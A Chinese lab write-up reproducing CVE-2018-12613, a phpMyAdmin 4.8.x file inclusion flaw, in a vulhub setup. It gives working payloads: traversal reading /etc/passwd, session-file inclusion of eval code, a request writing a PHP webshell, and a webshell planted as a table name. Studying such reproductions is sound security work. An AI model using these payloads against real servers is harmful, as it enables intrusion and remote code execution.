








## phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。

文件包含相关函数

~~~
require()#函数出现错误的时候，会直接报错并退出程序的执行
require_once()#只包含一次
include()#在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()#只包含一次
~~~

文件包含分类:
本地包含:可以进行一些本地的文件读取
远程包含:可以对外网上的文件进行读取

当allow_url_include和allow_url_fopen都开启时，可以通过利用远程url或者`php://`协议直接getshell，即远程文件包含，但allow_url_include在php5.2之后默认为off，利用机会有限。

当`allow_url_include` and `allow_url_fopen`均为off 在**window主机环境**下仍然可以进行远程文件执行，用445端口SMB协议进行远程加载。

其余情况下只能通过控制本地文件进行RCE，[详细php文件包含及其getshell的姿势]( https://xz.aliyun.com/t/5535#toc-5)

回到本漏洞，在index.php中

对用户提交的target参数进行包含，我们可以传入一个本地文件路径去让其包含，就会造成LFI漏洞。但是这个文件要在白名单中并通过校验，[绕过方式文章](https://blog.csdn.net/qq_34444097/article/details/85264686)。

最终构造的payload如下

~~~
/index.php?target=db_sql.php?/../../../../../../../../etc/passwd
#Windows环境下利用需要对?
/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_21faa6130eaba2b5e04e313bfacc60d4
~~~

### 漏洞复现

环境 /vulhub/phpmyadmin/CVE-2018-12613

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在。

- session文件包含

执行 SQL语句 SELECT '<?=phpinfo()?>'

查看session值，包含session文件

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_21faa6130eaba2b5e04e313bfacc60d4
~~~

~~~
select "<?php eval($_REQUEST[s]);?>"
~~~

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_8d77544f0a245337f270615290e95506&s=phpinfo();
~~~

执行命令

写webshell

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_8d77544f0a245337f270615290e95506&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pwd])?%3E%27);
~~~

- 利用数据库创建shell

创建一个数据表，表名任意。字段名为<?php @eval($_GET['s']);?>

查询绝对路径

~~~
show variables like '%datadir%'
------------------------------
datadir    /var/lib/mysql/
~~~

数据库文件包含

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/mysql/test/webshell.frm&s=phpinfo();
~~~

> 结果发现靶机上并没有mysql这个路径，仔细一想这个环境是站库分离的。。。

写到另一个容器里面了

